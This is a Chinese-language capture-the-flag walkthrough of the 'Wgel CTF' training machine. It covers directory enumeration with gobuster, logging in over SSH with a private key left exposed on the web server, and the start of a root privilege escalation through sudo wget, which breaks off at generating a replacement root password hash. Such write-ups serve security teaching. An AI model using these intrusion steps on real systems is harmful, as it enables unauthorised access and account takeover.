 ```yaml
---
sidebar_position: 17
tags: [Easy, Linux, 信息泄露, SUDO]
title: Wgel CTF
sidebar_label: Wgel CTF
---
```

# Wgel CTF
## 端口扫描

![20240530110122](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240530110122.png)

## 80 - HTTP

![20240530110134](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240530110134.png)

在网页源码中发现一句话
```html
<!-- Jessie don't forget to udate the webiste -->
```

:::note
- 用户 ： jessie 我们可以尝试暴力破解密码
- 更新站点 ： 网站存在漏洞或者一些资源
:::

进行目录扫描
```bash
root@ip-10-10-35-64:~# gobuster dir -u http://10.10.226.53/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.226.53/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2023/08/07 02:26:24 Starting gobuster
===============================================================
/sitemap (Status: 301)
/server-status (Status: 403)
===============================================================
2023/08/07 02:26:46 Finished
===============================================================
```


访问我们的 sitemap 站点， 但是发现其是一个静态网页， 此时我们再次枚举

```bash
root@ip-10-10-35-64:~# gobuster dir -u http://10.10.226.53/sitemap/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.226.53/sitemap/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2023/08/07 02:27:25 Starting gobuster
===============================================================
/images (Status: 301)
/css (Status: 301)
/js (Status: 301)
/fonts (Status: 301)
/sass (Status: 301)
===============================================================
2023/08/07 02:27:48 Finished
===============================================================
```

此时我们没有发现任何利用方式接着我们进行

- 暴力破解 ssh 密码 （无用）
- apache 2.4.18 漏洞没有

看了 wp 后， 我们需要换一个字典扫描

```bash
root@ip-10-10-35-64:~# gobuster dir -u http://10.10.226.53/sitemap/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.226.53/sitemap/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2023/08/07 02:30:34 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/.ssh (Status: 301)
/css (Status: 301)
/fonts (Status: 301)
/images (Status: 301)
/index.html (Status: 200)
/js (Status: 301)
===============================================================
2023/08/07 02:30:35 Finished
===============================================================
```

我们访问 .ssh 目录我们可以发现这是一个 ssh 密钥，我们将其下载下来进行验证发现也没有密码

## 后渗透
### jessir
```bash
 ssh -i id_rsa jessie@10.10.226.53                                                                                 ✔ 
The authenticity of host '10.10.226.53 (10.10.226.53)' can't be established.
ED25519 key fingerprint is SHA256:6fAPL8SGCIuyS5qsSf25mG+DUJBUYp4syoBloBpgHfc.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.226.53' (ED25519) to the list of known hosts.
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-45-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


8 packages can be updated.
8 updates are security updates.

jessie@CorpOne:~$ id
uid=1000(jessie) gid=1000(jessie) groups=1000(jessie),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
```

### jessie --> root
我们发现用户具有特权

```bash
jessie@CorpOne:~$ sudo -l
Matching Defaults entries for jessie on CorpOne:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jessie may run the following commands on CorpOne:
    (ALL : ALL) ALL
    (root) NOPASSWD: /usr/bin/wget
```

按照下面的这个教程进行操作 [Sudo Wget Privilege Escalation | Exploit Notes](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-wget-privilege-escalation/), 生成 root 用户密码

```bash
jessie@CorpOne:~$ openssl passwd -1 -salt root passwd
$1$root$qmWBOY2/X6TRvgQwf/3CO0
```